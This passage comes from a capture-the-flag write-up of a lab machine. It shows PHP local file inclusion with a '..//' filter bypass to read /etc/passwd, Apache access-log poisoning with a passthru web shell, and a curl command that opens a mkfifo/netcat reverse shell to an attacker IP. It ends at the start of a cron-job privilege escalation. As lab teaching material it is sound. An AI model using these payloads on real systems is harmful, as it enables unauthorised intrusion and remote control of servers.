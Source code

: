 So the page we find has a button which contains a link to another file on the server. Clicking it seems to load that files contents onto the page, we can check this by using the url in the link to load the file directly which contains the text `Control is an illusion`. So this file referencing is called Local File Inclusion (LFI) and can be exploited a number of ways as the server executes the instruction to load a file of the user's choice. Replacing the GET request in burp with `/test.php?view=/etc/passwd` gives us a `Sorry, That's not allowed` so we are on the right track but just need to get around the input restrictions. In comes path traversal, maybe instead of going directly to the passwd file we can traverse to it from the `development_testing` folder. Trying `/test.php?view=/var/www/html/development_testing/../../../../etc/passwd` however gives us the same error message. It looks like the `../` file traversal string are being stripped out, Linux however treats `..//` the same way as `../` so if we use these instead we can avoid the input checks. `/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd` works and gives the passwd file in clear text. Ok next how do we use the LFI vector to get into the system? Log poisoning. We can pass in a GET request which includes some PHP code and then use LFI to load the APACHE `access.log` and get a reverse shell. This goes as follows:

#### Log Poisoning
Netcat in to the http port 

`nc 10.10.34.65 80`

Run the GET request for a non-existent page along with our php payload.

`GET /POISON<?php passthru($_GET['cmd']); ?> HTTP/1.1`

Next we can then request the log either through Burp or using `curl` along with a `cmd`.

`curl -H "HOST: mafialive.thm" 10.10.34.65/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=ls" -s | grep POISON | cut -d "/" -f4`

Here I use curl with the full url, specifying the hostname along with the cmd variable of `ls`. As the `access.log` is usually pretty big we don't want the output hard to find so we just grep for that `POISON` we requested earlier and then `cut` out the web request portion. Now we can see out poison is working we just need to send through a cmd for a reverse shell and we can do that with a standard bash reverse cmd.

`curl -H "HOST: mafialive.thm" 10.10.34.65/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.15.15 4444 >/tmp/f" -s`

aaand we are now www-data.

### 3 Command and Control

After getting into the www-data account and snooping around I did the usual search for low hanging fruit a.k.a. unprotected ssh keys, accessible password files and sudo NOPASS permissions. No luck. So time to load up the linpeas script which is always reliable and lets me stretch my legs while it's running. I run a simple python http server with `python -m http.server 8080` to serve up the `linpeas.sh` script and then run a `wget` from www-data to download it then run it and tee it to a log file in case I need to search it for something later. 

### 4.1 Privilege Escalation - Scheduled Task/Job

Looking at the linpeas output I can see there are some cron jobs scheduled and in particular there is one running every minute by the user `archangel` and also using a script in the accessible `/opt` folder. We can easily just echo in a reverse bash command and get archangel access as follows:
